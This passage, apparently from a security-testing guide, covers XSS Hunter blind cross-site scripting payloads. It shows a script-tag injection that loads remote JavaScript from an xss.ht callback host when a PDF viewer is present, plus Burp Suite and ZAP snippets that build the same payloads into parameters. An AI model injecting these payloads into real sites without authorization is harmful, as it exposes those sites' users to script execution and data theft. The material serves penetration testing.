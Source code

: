 ### PDF/Document Context
```javascript
// PDF viewer context
"><script>
if(window.location.href.includes('.pdf') || 
   document.querySelector('embed[type="application/pdf"]')) {
    var s = document.createElement('script');
    s.src = 'https://yoursubdomain.xss.ht/pdf-context';
    document.head.appendChild(s);
}
</script>
```

## Integration with Testing Tools

### Burp Suite Integration
```python
# Burp Suite extension for XSS Hunter
from burp import IBurpExtender, IHttpListener

class BurpExtender(IBurpExtender, IHttpListener):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("XSS Hunter Integration")
        callbacks.registerHttpListener(self)
        
    def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
        if not messageIsRequest:
            response = messageInfo.getResponse()
            responseString = self._helpers.bytesToString(response)
            
            # Inject XSS Hunter payload into responses
            payload = '"><script src="https://yoursubdomain.xss.ht"></script>'
            if "text/html" in responseString:
                # Inject payload logic here
                pass
```

### OWASP ZAP Integration
```python
# ZAP script for XSS Hunter payloads
def scan(ps, msg, src):
    payload = '"><script src="https://yoursubdomain.xss.ht/zap"></script>'
    
    # Test each parameter
    for param in msg.getParamNameSet():
        msg.setParam(param, payload)
        ps.raiseAlert(...)
```

